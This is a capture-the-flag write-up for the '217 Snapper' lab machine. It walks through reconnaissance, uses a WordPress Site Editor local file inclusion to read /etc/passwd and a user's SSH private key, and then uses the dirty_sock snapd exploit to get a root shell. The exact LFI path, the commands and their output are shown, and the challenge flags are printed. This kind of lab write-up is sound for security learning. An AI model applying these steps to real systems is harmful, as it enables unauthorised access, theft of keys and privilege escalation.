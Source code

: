 ### 0x01 Challenge:

**Level:** Easy-Medium

**Description:**

>**217 Snapper**
>
>Get user and root flags.
>author: torombolo

### 0x02 User write-up:

We start by scanning the IP to get active services.

```
nmap -sV -Pn -T5 192.168.105.111
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-14 09:15 BST
Nmap scan report for 192.168.105.111
Host is up (0.00041s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 52:54:00:A8:CA:93 (QEMU virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
```

If we enum the web we will see interesting paths. The most prominent is the wordpress installed.

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/blog (Status: 301) ----------------------
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
```

The most logical way to perform is to do a first scan with wpscan, which will show us a LFI (local file inclusion) vulnerability.

```
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9044
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - http://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

Basically, the vulnerability explains that by visiting a specific path we can list computer files. The path in question is: http://(HOST)/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=(FILE_TO_LIST). We will do the PoC with /etc/passwd.

![Branching](https://i.imgur.com/Gn0nTWm.png)

**It works!**

Now we can list the ssh private key of one of the users to be able to connect to the machine.

* User: masterblaster
* Path: /home/masterblaster/.ssh/id_rsa

![Branching](https://i.imgur.com/biFPnNZ.png)

If we copy the rsa key to our machine and try to connect using it... (Remember to give 600 permissions to the file).

```
➜  ~ ssh masterblaster@192.168.105.111 -i .ssh/snapper
The authenticity of host '192.168.105.111 (192.168.105.111)' can't be established.
ECDSA key fingerprint is SHA256:95id/6gGifLj0lHnpKkICP9wAeECnGU/SHstsKBQ1Vo.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.105.111' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

Last login: Sat Jun  8 17:18:17 2019 from 192.168.1.110
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ ls
Desktop  Documents  Downloads  examples.desktop  flag.txt  Music  Pictures  Public  Templates  Videos
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ cat flag.txt
uad360{b2143fa23fcfb6145f1bc9cca80dcbab}
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ 
````

All right! We have user and the first flag

`User flag: uad360{b2143fa23fcfb6145f1bc9cca80dcbab}`



### 0x03 Root write-up:

To get the root flag, if we list enough we can see that the snap version is not the most recent (the name of the machine helps to realize).

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ snap --version
snap    2.35.5+18.10
snapd   2.35.5+18.10
series  16
ubuntu  18.10
kernel  4.18.0-20-generic
```

That particular version is vulnerable to local privilege escalation as we can see [here](https://www.exploit-db.com/exploits/46361). The instructions to follow for the exploitation are:

* Create an account at the https://login.ubuntu.com/.
* After confirming it, edit your profile and upload an SSH public key.
* Run the exploit specifying the private key associated with the public upload to the web.

As we have said, we created the account in the link and we will upload the ssh key to its corresponding section.

![Branching](https://i.imgur.com/IJAtcD6.png)

In order to avoiding upload our personal ssh key for obvious reasons, we created a new one in a linux as we see here:

```
➜  /tmp ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/.ssh/snapper_root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/snapper_root.
Your public key has been saved in /root/.ssh/snapper_root.pub.
The key fingerprint is:
SHA256:hRkMNEgC26et0GnVyhmW0MPGzZDZdPNUs8MFlgYXcF0 root@kali
The key's randomart image is:
+---[RSA 2048]----+
|..o=o@=o+ ++O=..E|
| o oXo+o.B =o+.  |
|. ..*.. o o.+    |
| . O +   .   .   |
|. = =   S        |
| o .             |
|  .              |
|                 |
|                 |
+----[SHA256]-----+
```

We upload the generated public key. We pass the exploit and the private key to the vulnerable machine and launch it by specifying the key and the account mail.

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:/dev/shm$ python3 snapd.py -u sugomum@uber-mail.com -k snapper_root

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 1)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/bgsfawbofu;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Sending payload...
[+] Success! Enjoy your new account with sudo rights!
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

New release '19.04' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ id
uid=1001(r00tdevploit) gid=1001(r00tdevploit) groups=1001(r00tdevploit)
r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ sudo -s
root@masterblaster-Standard-PC-Q35-ICH9-2009:~# GGWP
```

**We got root shell!**

Finally we visit the path where the flag is.

```
root@masterblaster-Standard-PC-Q35-ICH9-2009:/root# cat flag.txt
uad360{fb9bf208b033aee53a16a5255b3b3039}
```

`Root flag: uad360{fb9bf208b033aee53a16a5255b3b3039}`
